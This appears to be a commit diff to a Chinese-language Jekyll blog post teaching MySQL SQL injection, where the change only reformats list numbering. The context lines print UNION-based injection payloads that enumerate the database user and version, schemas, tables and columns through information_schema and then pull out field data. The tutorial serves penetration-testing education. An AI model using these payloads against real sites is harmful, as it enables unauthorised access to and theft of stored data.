

Before and after one commit to alpha1e0/alpha1e0.github.io, a Jekyll site: the page built from _posts/2015-05-09-mysql-sql-注入.md, in a window 1280 px wide and 1400 px high, scrolled down 1689 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; Markdown is read by kramdown in place of the engine named in the settings.

Commit message:
update post mysql sql inject2

```diff
--- a/_posts/2015-05-09-mysql-sql-注入.md
+++ b/_posts/2015-05-09-mysql-sql-注入.md
@@ -98,15 +98,15 @@ tags: 渗透测试
 
 ### 0x04 常规注入
 
-1. 猜解列数 “order by n /* ”
+1、猜解列数 “order by n /* ”
 
-2. 查询mysql基本信息(假设数据库表有7列)
+2、查询mysql基本信息(假设数据库表有7列)
 
 	“ and 1=2 union select 1,2,3,concat_ws(char(32,58,32),0x7c,user(),database(),version()),5,6,7/* ”
 
 	例如：select * from sedb.site_tb where 1=2 union select 1,2,concat_ws(char(32,58,32),0x7c,user(),database(),version());
 
-3. 查询mysql数据库中有哪些数据库(注意使用limit限制查询的范围)
+3、查询mysql数据库中有哪些数据库(注意使用limit限制查询的范围)
 
 	and 1=2 union select 1,schema_name,3,4 from information_schema.schemata/*
 
@@ -114,7 +114,7 @@ tags: 渗透测试
 
 	例如：select * from site_tb where 1=2 union select 1, 2, group_concat(schema_name) from information_schema.schemata;
 
-4. 查询某个数据库中有哪些表（数据库名可能需要16进制）
+4、查询某个数据库中有哪些表（数据库名可能需要16进制）
 
 	and 1=2 union select 1,2,3,4,table_name,5 from information_schema.tables where table_schema=数据库名
 
@@ -122,7 +122,7 @@ tags: 渗透测试
 
 	例如：select * from site_tb where 1=2 union select 1, 2, group_concat(table_name) from information_schema.tables where table_schema='sedb';
 
-5. 查询某个表中有哪些字段（表名、数据库名可能需要16进制）
+5、查询某个表中有哪些字段（表名、数据库名可能需要16进制）
 
 	and 1=2 union select 1,2,3,4,column_name,5,6,7 from information_schema.columns where table_name=表名 and table_schema=数据库名 limit 1,1/*
 
@@ -130,7 +130,7 @@ tags: 渗透测试
 
 	例如：select * from site_tb where 1=2 union select 1, 2, group_concat(column_name) from information_schema.columns where table_name='site_tb' and table_schema='sedb';
 
-6. 查询数据：
+6、查询数据：
 
 	and 1=2 union select 1,2,3,字段1,5,字段2,7,8 from 数据库.表/*
 
```
